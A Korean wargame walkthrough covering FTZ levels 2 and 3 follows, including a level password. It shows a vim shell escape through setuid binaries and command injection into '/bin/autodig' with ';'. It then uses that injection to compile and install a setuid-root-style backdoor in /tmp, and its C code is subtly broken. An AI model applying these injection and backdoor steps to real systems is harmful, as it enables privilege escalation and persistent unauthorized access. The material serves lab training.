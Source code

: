 # FTZ_2
## vi(vim) 편집기의 취약점을 이용한 system 권한 공격

* id: level2
* pw: hacker is cracker

vim 명령어 사용중,  !__ 명령어 사용과 함께 쓰면 vim의 usr권한을 그대로 유지한체, 프로그램을 실행할 수 있다.
그럼으로 setuid가 level3로 설정되어있는 실행파일을 find함수를 통해 찾는다.

1. find / -perm +6000 -user level3 2> /dev/null 
2. vim 편집기 실행 후 :!bash를 통해 공격한다.
3. level3의 권한을 얻는다.

# FTZ_3
## 병령 처리 명령어를 통한 공격

이번 챕터에서는 dig와 nslookup을 예시로 명령어 병렬처리의 취약점에 대해 알려준다.
nslookup을 통해 도메인서버의 실제 주소값을 알 수 있다. 
그리고 dig @주소값 bind version을 통해 취약한 도매인 서버을 파악할 수 있다.
이때 이전과 같이 find / -perm +6000 -user level4 2> /dev/null을 통해 level4의 권한을 갖고 있는 setuid를 찾는다.
그것을 실행시켜보면 dig의 명령어와 같다는 것을 확인할 수 있다.
이것을 gdb로 리버싱을 진행해보면 cmpl와 je를 통해 arg가 2가 아닐 경우 명령어가 꺼지는 것을 확인할 수 있다. 
이제 공격 idea를 생각해보자  
bash에서 '"__"'를 같이 묵어서 명령어를 실행하면 spacebar 와 함께 명령어가 실행된다.
그리고 ';'를 통해 해당 명령어를 실행하는 것과 동시에 병렬적으로 다른 명령어를 함께 실행할 수 있다. 

* /bin/autodig "8.8.8.8; my-pass;" 

이를 통해서 /bin/autodig에서 level4의 권한을 갖고 있는 명령어가 실행될때 병렬적으로 내가 쓰고싶은 명령어를 같이 쓸 수 있다.


## 백도어 만들기
같은 아이디어로 백도어를 만들어보자,   
백도어란 저번 post에서 설명했듯이 권한이 부여가 되지 않는 상태에서 해당하는 권한으로 파일을 실행 시킬 수 있다.  

1. 파일 생성  
/bin/autodig "8.8.8.8; echo '
```
int main(){
char *cmd[2];
char *cmd[0] = "/bash/sh"
char *cmd[1] = (void *)0;
setreuid(3004,3004);
execve(cmd[0],cmd,cmd[1]);
}
```
' > /tmp/superBackdoor.c;

2. compile하기
/bin/autodig "8.8.8.8; gcc -o /tmp/superBackdoor /tmp/superBackdoor.c;"

3. 권한부여하기
/bin/autodig "8.8.8.8; chmod 6755 /tmp/superBackdoor"

이과정을 통해 level으로 접근을 해도, 바로 level4의 권한을 가질 수 있다.
execve의 명령어의 설명은 다음과 같다.
exec 까지는 excutaion의 함수이고, v는 argv를 vector(배열)로 받는 다는 의미이다. 그리고 e는 환경설정할 parameter를 받는 다는 의미이다.  
즉, 첫번째 인자에 실행할 파일을 넣고, 그 인자를 cmd의 상태로 실행한 뒤, 환경변수는 cmd[1]의 형태를 갖는다는 의미이다. 
